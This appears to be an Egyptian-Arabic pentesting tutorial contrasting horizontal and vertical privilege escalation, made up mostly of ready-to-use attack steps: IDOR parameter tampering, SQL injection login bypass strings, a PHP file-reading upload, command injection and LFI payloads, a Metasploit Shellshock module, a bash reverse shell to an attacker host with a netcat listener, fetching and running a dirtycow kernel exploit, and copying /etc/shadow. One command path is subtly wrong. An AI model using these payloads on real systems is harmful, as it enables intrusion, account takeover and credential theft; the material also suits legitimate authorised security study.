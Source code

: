 تمام، هشرح لك "Differences between Horizontal Privilege Escalation and Vertical Privilege Escalation" بعمق شديد مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من واحد صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. Horizontal Privilege Escalation (التصعيد الأفقي)**

#### **الشرح العميق:**
التصعيد الأفقي بيحصل لما تكون داخل نظام أو تطبيق كمستخدم عادي (low privilege user) وتقدر توصل لصلاحيات أو بيانات مستخدم عادي تاني على نفس المستوى بتاعك بدون ما تطلع لمستوى أعلى زي الأدمن. الهدف هنا مش التحكم الكامل في النظام، لكن الوصول لموارد أو حسابات المفروض ماتكونش تحت إيدك. في الويب، ده بيحصل كتير بسبب ثغرات زي ضعف التحقق من الهوية (Broken Access Control) أو سوء تصميم الـ Session Management.

#### **الأدوات والأوامر العملية:**
1. **تجربة Parameter Tampering:**
   - لو موقع فيه رابط زي: `http://example.com/profile?user_id=123`
   - عدّل الـ `user_id` لـ `124` أو `1`:
     - `http://example.com/profile?user_id=124`
   - لو فتح حساب مستخدم تاني (زي حساب زميلك)، يبقى ده تصعيد أفقي.
   - أداة: Burp Suite (Intercept الطلب وعدّل الـ Parameter).

2. **Cookie Manipulation:**
   - لو الموقع بيعتمد على كوكيز:
     - افتح المتصفح، اضغط F12، روح لـ Application -> Cookies.
     - لو لقيت حاجة زي `session=abc123`، جرب كوكيز حد تاني (لو عندك طريقة تجيبها).
     - أمر في Burp: غيّر الـ Cookie في الـ Request وشوف النتيجة.

3. **SQL Injection للوصول لحسابات:**
   - لو فيه Login Page، جرب:
     - Username: `admin' OR user_id=2 --`
     - Password: أي حاجة.
   - لو دخلت على حساب مستخدم تاني مش الأدمن، ده أفقي.

4. **مثال يدوي:**
   - لو موقع بيسمح تحميل ملفات، ارفع ملف PHP بسيط:
     - `<?php echo file_get_contents('/home/user2/data.txt'); ?>`
   - لو شفت بيانات مستخدم تاني، ده تصعيد أفقي.

#### **خلاصة بالعامية المصرية:**
"يعني أنت جوا البيت كضيف، ومش هتبقى صاحب البيت، بس قدرت تفتح دولاب الضيف التاني وتشوف هدومه أو تاخد حاجته. زي ما تكون بتتنطط بين الجيران من غير ما تبقى الباشا بتاع العمارة!"

---

### **2. Vertical Privilege Escalation (التصعيد العمودي)**

#### **الشرح العميق:**
التصعيد العمودي بيحصل لما تكون مستخدم عادي وتطلع لمستوى أعلى زي الأدمن أو root على النظام كله. هنا الهدف هو التحكم الكامل، مش بس التنقل بين المستخدمين. في الويب، ده بيحصل من ثغرات زي Command Injection، سوء إعدادات السيرفر، أو استغلال برامج قديمة (outdated software). لما توصل للمستوى ده، تقدر تعمل أي حاجة: تشغل أوامر، تسرق بيانات، أو تدمر النظام.

#### **الأدوات والأوامر العملية:**
1. **Command Injection:**
   - لو موقع فيه حقل بياخد إدخال زي `http://example.com/ping?ip=127.0.0.1`:
     - جرب: `http://example.com/ping?ip=127.0.0.1; id`
     - لو رجعلك `uid=33(www-data)`، حاول تصعد:
     - `http://example.com/ping?ip=127.0.0.1; sudo -l`
   - لو نجحت، جرب أمر زي `sudo /bin/bash`.

2. **LFI (Local File Inclusion):**
   - رابط: `http://example.com?page=about.php`
   - جرب: `http://example.com?page=/etc/passwd`
   - لو نجح، حاول تشغل أوامر:
     - `http://example.com?page=/proc/self/environ` (شوف متغيرات النظام).
   - لو لقيت طريقة تحقن shell، تصعد لـ root.

3. **Metasploit للتصعيد:**
   - افتح: `msfconsole`
   - لو لقيت ثغرة في خدمة زي Apache:
     - `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
     - `set RHOST 192.168.1.10`
     - `exploit`
   - لو نجحت، هتاخد shell، شغل `id`، وبعدها ابحث عن تصعيد.

4. **Kernel Exploits:**
   - لو وصلت لـ shell كـ www-data:
     - `uname -r` (مثلاً 2.6.32).
     - `searchsploit linux kernel 2.6.32`
     - نزل السكربت (مثل dirtycow)، ارفعه على السيرفر، وشغله:
       - `./dirtycow`
     - لو نجح، هتبقى root.

#### **خلاصة بالعامية المصرية:**
"يعني أنت كنت ضيف في البيت، بس لقيت السلم السري وطلعت لأوضة صاحب البيت، وخدت مفتاح العمارة كلها! هنا أنت مش بتلعب مع الجيران، أنت بقيت الباشا بتاع كل حاجة!"

---

### **3. الفرق العملي والتأثير**
- **Horizontal:**
  - التأثير: محدود، بتوصل لبيانات مستخدمين تانيين، لكن مش بتتحكم في النظام.
  - الخطر: سرقة بيانات، انتحال شخصية، أو جمع معلومات لخطوة أكبر.
- **Vertical:**
  - التأثير: كبير جدًا، بتاخد السيطرة الكاملة على السيرفر أو الموقع.
  - الخطر: تدمير النظام، تسريب كل البيانات، أو زرع أكواد ضارة.

#### **خلاصة بالعامية المصرية:**
"الأفقي زي ما تكون بتلف في الدور الأول بين الأوض، بس العمودي يعني طلعت للسطح ومسكت العمارة كلها بإيدك! الفرق إن الأول بتلعب في الصغير، والتاني بتبقى الكبير بجد."

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`
- افترض النتيجة:
  - Port 80: Apache 2.4.29
  - Port 22: OpenSSH 5.3

#### **الخطوة 2: اختبار التصعيد الأفقي**
- جرب Parameter Tampering:
  - `http://192.168.1.10/profile?user_id=123`
  - عدلها لـ: `http://192.168.1.10/profile?user_id=124`
  - لو فتحت حساب مستخدم تاني، سجل البيانات (زي الإيميل أو كلمة السر).
- جرب SQL Injection:
  - في Login Page: Username: `user' OR user_id=2 --`
  - لو دخلت حساب مستخدم تاني، ده أفقي.

#### **الخطوة 3: اختبار التصعيد العمودي**
- جرب Command Injection:
  - `http://192.168.1.10/ping?ip=127.0.0.1; id`
  - لو رجعلك `www-data`، جرب:
    - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`
  - على جهازك: `nc -lvnp 4444` (هتاخد shell).
- لو وصلت لـ shell:
  - `id` (مثلاً www-data).
  - `sudo -l` (لو لقيت أوامر زي `sudo /bin/bash`، شغلها).

#### **الخطوة 4: تصعيد عمودي كامل**
- لو ما لقيتش sudo:
  - `uname -r` (مثلاً 2.6.32).
  - `searchsploit linux kernel 2.6.32`
  - نزل exploit (زي dirtycow)، ارفعه:
    - `wget http://192.168.1.100/dirtycow.c -O /tmp/dc.c`
    - `gcc /tmp/dc.c -o /tmp/dc`
    - `./tmp/dc`
  - لو نجح، `id` هيرجعلك `uid=0(root)`.

#### **الخطوة 5: استغلال وتوثيق**
- الأفقي: استخدم البيانات اللي جمعتها (زي كلمات سر) لتجرب حسابات تانية.
- العمودي: لو وصلت root، سجل كل حاجة، وخد نسخة من الملفات الحساسة (زي `/etc/shadow`).
- رجّع تقرير للعميل بكل اللي عملته.

#### **خلاصة بالعامية المصرية:**
"الأفقي زي ما تكون بتسرق شنطة جارك، والعمودي زي ما تكون خدت مفتاح العمارة كلها! في الـ Pentesting، ابدأ بالأفقي عشان تجمع معلومات، وبعدها اطلع عمودي عشان تبقى الكبير!"

---

### **الخلاصة النهائية:**
التصعيد الأفقي بيديك وصول لنفس المستوى (زي مستخدمين تانيين)، والعمودي بيخليك تسيطر على النظام كله (زي root). بالأدوات زي Burp، Nmap، وMetasploit، تقدر تكتشف الثغرات وتستغلها. ابدأ بالأفقي عشان تجمع بيانات، وبعدها اركب العمودي عشان تبقى البطل بتاع اللعبة!